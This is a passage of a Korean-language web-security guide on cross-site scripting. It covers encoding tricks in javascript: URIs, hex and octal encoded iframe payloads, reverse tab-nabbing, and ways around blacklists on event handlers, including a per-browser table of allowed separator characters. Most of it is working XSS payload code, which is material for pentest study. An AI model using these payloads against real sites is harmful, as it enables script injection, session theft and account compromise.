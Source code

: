 _**이 경우에는 이전 섹션에서 사용한 HTML 인코딩 및 유니코드 인코딩 트릭도 속성 내부에 있기 때문에 유효합니다.**_
```javascript
<a href="javascript:var a='&apos;-alert(1)-&apos;'">
```
또 다른 **좋은 속임수**가 있습니다: **`javascript:...` 내부의 입력이 URL 인코딩되어 있더라도 실행되기 전에 URL 디코딩됩니다.** 따라서 **문자열**에서 **작은 따옴표**를 사용하여 **이스케이프**해야 하는 경우 **URL 인코딩**되어 있는 것을 확인하면, **중요하지 않다는 것을 기억하세요.** 실행 시간에는 **작은 따옴표**로 **해석**될 것입니다.
```javascript
&apos;-alert(1)-&apos;
%27-alert(1)-%27
<iframe src=javascript:%61%6c%65%72%74%28%31%29></iframe>
```
참고로 **URLencode + HTMLencode**을 **어떤 순서로든 사용하여** **페이로드**를 인코딩하려고 하면 **작동하지 않지만**, **페이로드 내부에서 둘을 혼합**할 수 있습니다.

**`javascript:`와 함께 16진수 및 8진수 인코딩 사용하기**

`iframe`의 `src` 속성 내부에서 **16진수** 및 **8진수 인코딩**을 사용하여 **JS를 실행할 HTML 태그를 선언**할 수 있습니다:
```javascript
//Encoded: <svg onload=alert(1)>
// This WORKS
<iframe src=javascript:'\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e' />
<iframe src=javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76' />

//Encoded: alert(1)
// This doesn't work
<svg onload=javascript:'\x61\x6c\x65\x72\x74\x28\x31\x29' />
<svg onload=javascript:'\141\154\145\162\164\50\61\51' />
```
### 역 탭 네빙
```javascript
<a target="_blank" rel="opener"
```
만약 임의의 **`<a href=`** 태그에 **`target="_blank"와 rel="opener"`** 속성이 포함된 URL을 삽입할 수 있다면, 이 동작을 악용하기 위해 **다음 페이지를 확인**하십시오:

{% content-ref url="../reverse-tab-nabbing.md" %}
[reverse-tab-nabbing.md](../reverse-tab-nabbing.md)
{% endcontent-ref %}

### on 이벤트 핸들러 우회

우선 유용한 **"on" 이벤트 핸들러**에 대해 확인하려면 이 페이지([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet))를 확인하십시오.\
이벤트 핸들러를 생성하는 데 제한을 두는 블랙리스트가 있는 경우 다음 우회 방법을 시도할 수 있습니다:
```javascript
<svg onload%09=alert(1)> //No safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2c%3b=alert(1)>

//chars allowed between the onevent and the "="
IExplorer: %09 %0B %0C %020 %3B
Chrome: %09 %20 %28 %2C %3B
Safari: %2C %3B
Firefox: %09 %20 %28 %2C %3B
Opera: %09 %20 %2C %3B
Android: %09 %20 %28 %2C %3B
```
### "사용할 수 없는 태그"에서의 XSS (숨겨진 입력, 링크, 캐노니컬, 메타)
